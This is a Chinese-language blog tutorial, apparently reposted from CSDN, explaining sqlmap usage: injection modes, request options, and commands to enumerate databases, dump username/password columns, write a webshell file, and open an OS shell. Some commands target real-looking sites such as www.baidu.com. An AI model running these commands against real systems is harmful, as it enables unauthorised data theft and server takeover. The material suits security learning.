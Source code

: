 ```yaml
---
uuid: 83d08501-c32a-91f1-c027-76e13bbadf12
title: sqlmap教程
date: 2022-04-28 11:33:44
tags: sqlmap
categories: 
     - [sqlmap]
     - [Web]
---
```


**之前使用sqlmap这个工具一直都没有系统的学习，有些功能没有了解到，在这里系统的学习一下一些命令作用，方便后续使用！**

<!--more-->

## 1 介绍

[SQLMap](https://so.csdn.net/so/search?q=SQLMap&spm=1001.2101.3001.7020)是一个开放源码的测试工具，它可以自动探测和利用SQL注入漏洞来接管数据库服务器。
**具体功能：**

```bash
1、判断可注入的参数
2、判断可以用那种SQL注入技术来注入
3、识别出哪种数据库
4、根据用户选择，读取哪些数据
5、可执行情况
6、当前数据库用户名称和拥有的权限
7、发现WEB虚拟目录
8、上传***getshell
9、绕过防火墙
```

**sqlmap支持的注入模式**

```bash
1、基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
2、基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
3、基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
4、联合查询注入，可以使用union的情况下的注入。（适合用于通过循环直接输出联合查询结果，否则只会显示第一项结果）
5、堆查询注入，可以同时执行多条语句的执行时的注入。
12345
```

## 2 安装下载

### 2.1 kali自带sqlmap

可直接使用！
![在这里插入图片描述](https://img-blog.csdnimg.cn/a630573151d84159a6c3adaa8c515632.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAI2NkIH4=,size_20,color_FFFFFF,t_70,g_se,x_16)

### 2.2 下载地址:

[sqlmap](https://github.com/sqlmapproject/sqlmap)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b791703586f3491bbc06886101a5ad6d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAI2NkIH4=,size_20,color_FFFFFF,t_70,g_se,x_16)

## 3 常用请求参数

### 3.1 get方法

**对于get的请求，比较简单，直接指定目标**

```bash
-d： 直接连接数据库 （-d "mysql://user:passward@地址:端口/数据库名称"）
-u：指定url  （?id=1）
-m：将多个url保存成文件，传给sqlmap （sqlmap -m list.txt）
-r：将http头信息保存到文件，交给sqlmap
-g：google搜索出来的结果 （-g "inurl:\".php?id=1\""）\"只是将双引号内的"特殊字符进行转义
-p ：只想检查的变量
-f ：指纹
--users：数据库帐号
--banner：数据库信息

--dbs：有哪些数据库
-a：all
123456789101112
```

**get请求应该是大家所熟悉的，sqlmap - u直接加URL，参数就可以了。**

### 3.2 POST方法

下面介绍几种对于post请求的sqlmap注入。
**1.使用http请求文件**
可以用burpsuite抓包并复制到txt文件

```bash
sqlmap -r  1 .txt
```

**2.使用burpsuite log文件 （勾选上options中的Misc中的proxy）**

```bash
sqlmap  - l log.txt
```

**3.HTTPS**
sqlmap同时也支持https的sql注入，只需加入参数-force-ssl告诉sqlmap这是https服务即可。
如

```bash
sqlmap -u https://192.168.1.1/a.php?id=1" -force-ssl  (默认不是443，在后加其端口)
```

**3.–date**

```bash
sqlmap -u http://127.0.0.1/sqli-labs-master/Less-11/ --data="uname=1111&passwd=11111&submit=Submit" --dbs
```

"uname=1111&passwd=11111&submit=Submit"为请求参数

## 4 常用方法

### 4.1 检测注入

#### 4.1.1基本格式

```bash
sqlmap -u “http://www.vuln.cn/post.php?id=1”
```

默认使用level1检测全部数据库类型

```bash
sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3
```

指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）

#### 4.1.2 cookie注入

当程序有防get注入的时候，可以使用cookie注入

```bash
sqlmap -u “http://www.baidu.com/shownews.asp” –cookie “id=11” –level 2（只有level达到2才会检测cookie）
```

#### 4.1.3 从post数据包中注入

可以使用burpsuite或者temperdata等工具来抓取post包

```bash
sqlmap -r “c:\tools\request.txt” -p “username” –dbms mysql    指定username参数
```

### 4.2 注入成功后

#### 4.2.1 获取数据库基本信息

```bash
sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbs
```

查询有哪些数据库

```bash
sqlmap -u URL --current-db --batch 
```

获取当前数据库

```bash
sqlmap -u “http://www.vuln.cn/post.php?id=1”  -D test –tables
```

查询test数据库中有哪些表

```bash
sqlmap -u “http://www.vuln.cn/post.php?id=1” -D test -T admin –columns
```

查询test数据库中admin表有哪些字段

~~~bash
```bash
sqlmap -u “http://www.vuln.cn/post.php?id=1” -D test -T admin -C “username,password” –dump
~~~

dump出字段username与password中的数据

**其他命令参考下面**
**从数据库中搜索字段**

```bash
sqlmap -r “c:\tools\request.txt” –dbms mysql -D dedecms –search -C admin,password
```

在dedecms数据库中搜索字段admin或者password。

**读取与写入文件**
首先找需要网站的物理路径，其次需要有可写或可读权限。

```bash
–file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
–file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
–file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
```

> \#示例：
> sqlmap -r “c:\request.txt” -p id –dbms mysql –file-dest “e:\php\htdocs\dvwa\inc\include\1.php” –file-write “f:\webshell\1112.php”
>
> 使用shell命令：
> sqlmap -r “c:\tools\request.txt” -p id –dms mysql –os-shell
> 接下来指定网站可写目录：
> “E:\php\htdocs\dvwa”

**#注：mysql不支持列目录，仅支持读取单个文件。sqlserver可以列目录，不能读写文件，但需要一个（xp_dirtree函数）**

转自：

https://blog.csdn.net/WEARE001/article/details/122024378
